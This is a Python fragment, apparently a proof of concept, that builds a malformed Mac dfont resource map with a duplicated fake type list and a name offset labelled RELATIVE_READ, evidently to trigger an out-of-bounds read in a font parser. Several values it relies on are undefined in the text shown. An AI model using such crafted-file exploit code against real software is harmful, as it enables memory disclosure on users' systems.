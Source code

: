 ```py

# res map header (16 bytes (+16 later))
res_map = b""
res_map += p32(0)   # handle to next resource map
res_map += p16(0)   # file reference number
res_map += p16(0)   # fork attributes
res_map += p16(38)  # offset to res type list
res_map += p16(60)  # offset to res name list
res_map += p16(0)   # num types in map - 1

# type list (8 bytes)
res_map += b"FOND"
res_map += p16(0)       # num of res of this type - 1
res_map += p16(20)       # offset from type list start to ref list of this type

# fake type list (10 bytes)
res_map += p16(0xffff)  # num types in map - 1 (dup value???)
res_map += b"FOND"
res_map += p16(0)       # num of res of this type - 1
res_map += p16(20)       # offset from type list start to ref list of this type

# ref list (12 bytes)
res_map += p16(1337)        # res id
res_map += p16(RELATIVE_READ)           # offset from resource name list start to res name of this res
res_map += p8(0)            # attributes
res_map += b"\x00\x00\x00"  # offset from res data start to this res data
res_map += p32(0)           # handle to resource

# res name (17 bytes)
res_map += p8(4)
res_map += b"GGWP"

res_map_offset = res_data_offset + res_data_len
res_map_len = len(res_map) + 16     # add 16 for res header later

res_header = b""
res_header += p32(res_data_offset)
res_header += p32(res_map_offset)
res_header += p32(res_data_len)
res_header += p32(res_map_len)

res_map = res_header + res_map

with open("myfont.dfont", "wb") as out:
    out.write(res_header)
    out.write(b"A" * 24)    # padding needed by the program
    out.write(res_data)
    out.write(res_map)
```
